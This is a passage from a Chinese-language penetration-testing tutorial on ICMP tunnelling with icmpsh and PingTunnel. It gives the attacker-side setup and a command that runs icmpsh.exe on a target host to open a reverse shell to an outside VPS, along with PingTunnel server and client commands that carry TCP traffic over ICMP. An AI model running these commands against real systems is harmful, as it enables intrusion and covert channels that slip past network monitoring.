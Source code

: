   安装Python的impacket库：`apt-get install python-impacket`

   关闭本地系统的ICMP应答：`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

   重新启用设为0即可。

   然后使用run.sh启动即可，输入目标的IP地址。

   目标主机上运行`icmpsh.exe -t VPSIP -d 500 -b 30 -s 128`，参数如下：

   ```
   -t host            host ip address to send ping requests to. This option is mandatory!
   
   -r                 send a single test icmp request containing the string "Test1234" and then quit. 
                      This is for testing the connection.
   
   -d milliseconds    delay between requests in milliseconds 
   
   -o milliseconds    timeout of responses in milliseconds. If a response has not received in time, 
                      the slave will increase a counter of blanks. If that counter reaches a limit, the slave will quit.
                      The counter is set back to 0 if a response was received.
   
   -b num             limit of blanks (unanswered icmp requests before quitting
   
   -s bytes           maximal data buffer size in bytes
   ```

   如果目标主机是Linux的话，可以使用这个：[ewilded/icmpsh-s-linux: GNU/Linux version of the https://github.com/inquisb/icmpsh slave](https://github.com/ewilded/icmpsh-s-linux)

2. PingTunnel

   该工具可以跨平台并且可以为隧道设置密码。

   有一个Go写的项目：

   项目地址：[esrrhs/pingtunnel: Pingtunnel is a tool that send TCP/UDP traffic over ICMP (github.com)](https://github.com/esrrhs/pingtunnel)

   作者直接有Release下载了，下载就能用。

   开启服务端之前也需要配置一下`sysctl -w net.ipv4.icmp_echo_ignore_all=1`，然后服务端：

   ```bash
   sudo ./pingtunnel -type server -key 123
   ```

   key是连接密码。

   客户端的话：

   ```powershell
   ./pingtunnel.exe -type client -l 127.0.0.1:4455 -s 192.168.140.128 -t 192.168.140.128:4455 -tcp 1 -key 123
   ```

   -s和是远程服务器的地址，-t是绑定的地址和端口，参数可以选择-tcp或者其它选项，可以看一下帮助。
